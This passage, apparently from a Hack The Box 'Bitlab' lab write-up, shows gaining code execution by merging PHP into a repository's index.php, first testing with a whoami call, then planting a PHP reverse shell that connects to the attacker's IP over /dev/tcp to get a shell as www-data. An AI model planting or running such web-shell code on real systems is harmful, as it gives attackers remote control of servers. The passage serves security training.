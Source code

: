 
It seems like **index.php** is for the user description as such:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-12.png)

I will try adding php script to see if it work:

`<?php echo system(‘whoami’); ?>`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-13.png)

Without any restriction, I can merge the change to master branch:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-14.png)

After merging, `/profile` shows the executed command:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-15.png)

I would be able to get a reverse shell connection using the php script below:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/1337 0>&1'");
?>
```

After merging the change, I get a shell connection as www-data

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-19.png)
